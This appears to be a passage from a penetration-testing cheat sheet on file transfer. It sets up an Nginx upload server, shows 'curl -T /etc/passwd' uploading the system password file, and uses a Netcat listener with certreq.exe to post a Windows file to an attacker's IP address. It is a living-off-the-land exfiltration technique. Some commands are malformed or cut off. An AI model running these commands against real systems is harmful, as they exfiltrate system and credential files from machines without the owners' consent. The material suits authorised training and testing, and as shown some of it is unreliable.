 #### Start Nginx
```Shell
systemctl restart nginx.service
```

#### Verifying Errors
```Shell
tail -2 `/var/log/nginx/error.log`
```

```Shell
ss -lnpt | grep `80`
```

```Shell
ps -ef | grep `2811`
```
We see there is already a module listening on port 80. To get around this, we can remove the default Nginx configuration, which binds on port 80.

#### Remove NginxDefault Configuration
```Shell
rm /etc/nginx/sites-enabled/default
```

#### Upload File Using cURL
```Shell
curl -T /etc/passwd
```

```Shell
tail -1 /var/www/uploads/SecretUploadDirectory/users.txt
```


## Living off the Land

### [LOLBAS](https://lolbas-project.github.io/#)

#### To search for download and upload functions in LOLBAS we can use `/download` or `/upload`

Example: `CertReq.exe`

#### Start Netcat Listener in Kali
```Shell
nc -lnvp 80
```

#### Upload win.ini to Kali from Windows
```cmd.exe
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```
This will send the file to our Netcat session, and we can copy-paste its contents.

### [GTFOBins](https://gtfobins.github.io/)

